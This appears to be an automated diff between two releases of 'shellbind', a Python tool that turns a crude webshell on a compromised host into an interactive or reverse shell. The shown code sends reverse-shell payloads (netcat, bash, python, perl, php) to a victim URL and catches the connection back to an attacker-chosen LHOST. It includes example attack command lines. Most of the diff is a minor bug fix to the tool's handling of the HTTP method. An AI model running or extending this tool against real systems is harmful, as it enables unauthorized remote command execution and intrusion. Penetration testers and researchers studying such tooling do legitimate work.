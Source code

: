 # Comparing `tmp/shellbind-1.0.tar.gz` & `tmp/shellbind-1.0.1.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "shellbind-1.0.tar", last modified: Sun Jun 18 21:46:40 2023, max compression
+gzip compressed data, was "shellbind-1.0.1.tar", last modified: Tue Jul  4 19:08:44 2023, max compression
```

## Comparing `shellbind-1.0.tar` & `shellbind-1.0.1.tar`

### file list

```diff
@@ -1,13 +1,13 @@
-drwxr-xr-x   0 sol       (1000) sol       (1000)        0 2023-06-18 21:46:40.523808 shellbind-1.0/
--rw-r--r--   0 sol       (1000) sol       (1000)    35149 2023-06-18 20:10:21.000000 shellbind-1.0/LICENSE
--rw-r--r--   0 sol       (1000) sol       (1000)     2255 2023-06-18 21:46:40.523808 shellbind-1.0/PKG-INFO
--rw-r--r--   0 sol       (1000) sol       (1000)     2018 2023-06-18 20:28:58.000000 shellbind-1.0/README.md
--rw-r--r--   0 sol       (1000) sol       (1000)       38 2023-06-18 21:46:40.523808 shellbind-1.0/setup.cfg
--rw-r--r--   0 sol       (1000) sol       (1000)      504 2023-06-18 21:45:59.000000 shellbind-1.0/setup.py
-drwxr-xr-x   0 sol       (1000) sol       (1000)        0 2023-06-18 21:46:40.523808 shellbind-1.0/shellbind.egg-info/
--rw-r--r--   0 sol       (1000) sol       (1000)     2255 2023-06-18 21:46:40.000000 shellbind-1.0/shellbind.egg-info/PKG-INFO
--rw-r--r--   0 sol       (1000) sol       (1000)      203 2023-06-18 21:46:40.000000 shellbind-1.0/shellbind.egg-info/SOURCES.txt
--rw-r--r--   0 sol       (1000) sol       (1000)        1 2023-06-18 21:46:40.000000 shellbind-1.0/shellbind.egg-info/dependency_links.txt
--rw-r--r--   0 sol       (1000) sol       (1000)       30 2023-06-18 21:46:40.000000 shellbind-1.0/shellbind.egg-info/requires.txt
--rw-r--r--   0 sol       (1000) sol       (1000)       10 2023-06-18 21:46:40.000000 shellbind-1.0/shellbind.egg-info/top_level.txt
--rwxr-xr-x   0 sol       (1000) sol       (1000)     6845 2023-06-18 20:04:27.000000 shellbind-1.0/shellbind.py
+drwxr-xr-x   0 sol       (1000) sol       (1000)        0 2023-07-04 19:08:44.701949 shellbind-1.0.1/
+-rw-r--r--   0 sol       (1000) sol       (1000)    35149 2023-06-18 20:10:21.000000 shellbind-1.0.1/LICENSE
+-rw-r--r--   0 sol       (1000) sol       (1000)     2301 2023-07-04 19:08:44.701949 shellbind-1.0.1/PKG-INFO
+-rw-r--r--   0 sol       (1000) sol       (1000)     2062 2023-06-18 21:57:20.000000 shellbind-1.0.1/README.md
+-rw-r--r--   0 sol       (1000) sol       (1000)       38 2023-07-04 19:08:44.701949 shellbind-1.0.1/setup.cfg
+-rw-r--r--   0 sol       (1000) sol       (1000)      506 2023-07-04 19:05:41.000000 shellbind-1.0.1/setup.py
+drwxr-xr-x   0 sol       (1000) sol       (1000)        0 2023-07-04 19:08:44.701949 shellbind-1.0.1/shellbind.egg-info/
+-rw-r--r--   0 sol       (1000) sol       (1000)     2301 2023-07-04 19:08:44.000000 shellbind-1.0.1/shellbind.egg-info/PKG-INFO
+-rw-r--r--   0 sol       (1000) sol       (1000)      203 2023-07-04 19:08:44.000000 shellbind-1.0.1/shellbind.egg-info/SOURCES.txt
+-rw-r--r--   0 sol       (1000) sol       (1000)        1 2023-07-04 19:08:44.000000 shellbind-1.0.1/shellbind.egg-info/dependency_links.txt
+-rw-r--r--   0 sol       (1000) sol       (1000)       30 2023-07-04 19:08:44.000000 shellbind-1.0.1/shellbind.egg-info/requires.txt
+-rw-r--r--   0 sol       (1000) sol       (1000)       10 2023-07-04 19:08:44.000000 shellbind-1.0.1/shellbind.egg-info/top_level.txt
+-rwxr-xr-x   0 sol       (1000) sol       (1000)     6880 2023-07-04 19:03:21.000000 shellbind-1.0.1/shellbind.py
```

### Comparing `shellbind-1.0/LICENSE` & `shellbind-1.0.1/LICENSE`

 * *Files identical despite different names*

### Comparing `shellbind-1.0/PKG-INFO` & `shellbind-1.0.1/PKG-INFO`

 * *Files 4% similar despite different names*

```diff
@@ -1,23 +1,27 @@
 Metadata-Version: 2.1
 Name: shellbind
-Version: 1.0
+Version: 1.0.1
 Summary: Shellbinding to Webshell
 Home-page: https://github.com/hydr0nium/shellbind
 Author: Hydr0nium/Sol
 License: GPL-3.0
 Description-Content-Type: text/markdown
 License-File: LICENSE
 
 # shellbind
 
 Shellbind is a python script that allows to bind a semi- or fully-interactive shell to an existing crude webshell.
 
 ### Installation:
+```bash
+pip install shellbind
+```
 
+### Usage
 ```bash
 usage: shellbind.py [-h] -p PARAMETER NAME [-X METHOD] -u HOST [-v] [-r METHOD:LHOST:PORT]
 
 Shellbind is a programm that helps to upgrade a simple GET/POST webshell into a semi- or fully-interactive (reverse) shell.
 
 options:
   -h, --help            show this help message and exit
```

### Comparing `shellbind-1.0/README.md` & `shellbind-1.0.1/README.md`

 * *Files 3% similar despite different names*

```diff
@@ -1,13 +1,17 @@
 # shellbind
 
 Shellbind is a python script that allows to bind a semi- or fully-interactive shell to an existing crude webshell.
 
 ### Installation:
+```bash
+pip install shellbind
+```
 
+### Usage
 ```bash
 usage: shellbind.py [-h] -p PARAMETER NAME [-X METHOD] -u HOST [-v] [-r METHOD:LHOST:PORT]
 
 Shellbind is a programm that helps to upgrade a simple GET/POST webshell into a semi- or fully-interactive (reverse) shell.
 
 options:
   -h, --help            show this help message and exit
```

### Comparing `shellbind-1.0/shellbind.egg-info/PKG-INFO` & `shellbind-1.0.1/shellbind.egg-info/PKG-INFO`

 * *Files 4% similar despite different names*

```diff
@@ -1,23 +1,27 @@
 Metadata-Version: 2.1
 Name: shellbind
-Version: 1.0
+Version: 1.0.1
 Summary: Shellbinding to Webshell
 Home-page: https://github.com/hydr0nium/shellbind
 Author: Hydr0nium/Sol
 License: GPL-3.0
 Description-Content-Type: text/markdown
 License-File: LICENSE
 
 # shellbind
 
 Shellbind is a python script that allows to bind a semi- or fully-interactive shell to an existing crude webshell.
 
 ### Installation:
+```bash
+pip install shellbind
+```
 
+### Usage
 ```bash
 usage: shellbind.py [-h] -p PARAMETER NAME [-X METHOD] -u HOST [-v] [-r METHOD:LHOST:PORT]
 
 Shellbind is a programm that helps to upgrade a simple GET/POST webshell into a semi- or fully-interactive (reverse) shell.
 
 options:
   -h, --help            show this help message and exit
```

### Comparing `shellbind-1.0/shellbind.py` & `shellbind-1.0.1/shellbind.py`

 * *Files 5% similar despite different names*

```diff
@@ -10,24 +10,24 @@
 import os
 import multiprocessing
 
 # Parse Command Line Arguments
 parser = argparse.ArgumentParser(description="Shellbind is a programm that helps to upgrade a simple GET/POST webshell into a semi- or fully-interactive (reverse) shell.", epilog="Examples:\n-Semi interactive shell (no cd, su, etc.)\n\tshellbind.py -X POST -p cmd -u http://vuln.example/shell.php\n-Fully interactive shell with verbose output\n\tshellbind.py -p cmd -u http://vuln.example/shell.py -v -r auto:10.10.13.37:8080", formatter_class=argparse.RawTextHelpFormatter)
 
 parser.add_argument("-p", "--parameter", metavar="PARAMETER NAME", dest="para_name", help="The parameter the is used to run shell commands", required=True, nargs=1)
-parser.add_argument("-X" , "--method", metavar="METHOD", dest="method", help="The method (GET/POST) that that is used (Default: GET)", default="GET", nargs=1)
+parser.add_argument("-X" , "--method", metavar="METHOD", dest="method", help="The method (GET/POST) that that is used (Default: GET)", default=["GET"], nargs=1)
 parser.add_argument("-u", "--host", dest="host", metavar="HOST", help="The host that is attacked.\nExample: http://www.victim.com/vuln.php", required=True, nargs=1)
 parser.add_argument("-v", "--verbose", dest="debug", help="Verbose Output", action='store_true', default=False)
 parser.add_argument("-r", "--reverse", dest="reverse", help="If set the programm upgrades the connection from a webshell to a fully-interactive reverse shell.\nAvailable methods are:\n  auto - Try until a reverse shell binds\n  php - php reverseshell\n  py - python3 reverse shell with sockets\n  py2 - python2 reverse shell with sockets\n  nc1 - netcat reverse shell with -e flag\n  nc2 - netcat reverse shell with -c flag\n  bash - sh -i reverse shell\n  perl - perl reverse shell\nLHOST should be the ip that the victim can connect to\nThe port can be any unused port", metavar="METHOD:LHOST:PORT", nargs=1)
 args = parser.parse_args()
 
 # Initilized listener and start trying reverse shell payloads
 def init_upgraded_shell():
-    args.method = args.method.upper()
-    if args.method not in ["GET", "POST"]:
+    args.method[0] = args.method[0].upper()
+    if args.method[0] not in ["GET", "POST"]:
         print(f"[!] Method {args.method} not recognized")
         sys.exit()
     try:
         payload_method, ip, port = args.reverse[0].split(":")
         port = int(port)
         # Payloads from revshells.com
         payloads = {
@@ -55,32 +55,32 @@
     time.sleep(1)
     timeout = 1
     if payload_method == 'auto':
         for payload in payloads.values():
             try:
                 if args.debug:
                     print(f"[!] Trying: {payload}") 
-                if args.method == "GET":
+                if args.method[0] == "GET":
                     params = {args.para_name[0]: payload}
                     requests.get(args.host[0], params=params, timeout=timeout)
-                elif args.method == "POST":
+                elif args.method[0] == "POST":
                     params = {args.para_name[0]: payload}
                     requests.post(args.host[0], data=params, timeout=timeout)
                 time.sleep(1)
             except:
                 pass
     else:
         payload = payloads[payload_method]
         try:
             if args.debug:
                 print(f"[!] Trying: {payload}") 
-            if args.method == "GET":
+            if args.method[0] == "GET":
                 params = {args.para_name[0]: payload}
                 requests.get(args.host[0], params=params, timeout=timeout)
-            elif args.method == "POST":
+            elif args.method[0] == "POST":
                 params = {args.para_name[0]: payload}
                 requests.post(args.host[0], data=params, timeout=timeout)
             time.sleep(1)
         except:
             pass
         print(f"[!] Method {payload_method} was not successfull")
 
@@ -103,24 +103,24 @@
     nc.send('''python3 -c "import pty;pty.spawn('/bin/bash')"\n''')
     time.sleep(1)
     nc.send("reset\n")
     nc.interactive()
     
 
 def web_shell():
-    args.method = args.method.upper()
-    if args.method not in ["GET", "POST"]:
+    args.method[0] = args.method[0].upper()
+    if args.method[0] not in ["GET", "POST"]:
         print(f"[!] Method {args.method} not recognized")
         sys.exit()
     if args.debug:
         print("[!] Shellbind is ready. You can run commands now")
     while True:
         try:
             command = input("$ ")
-            if args.method == "GET":
+            if args.method[0] == "GET":
                 params = {args.para_name[0]: command}
                 res = requests.get(args.host[0], params=params)
             else:
                 params = {args.para_name[0]: command}
                 res = requests.post(args.host[0], data=params)
             print(res.text)
         except requests.ConnectionError:
```

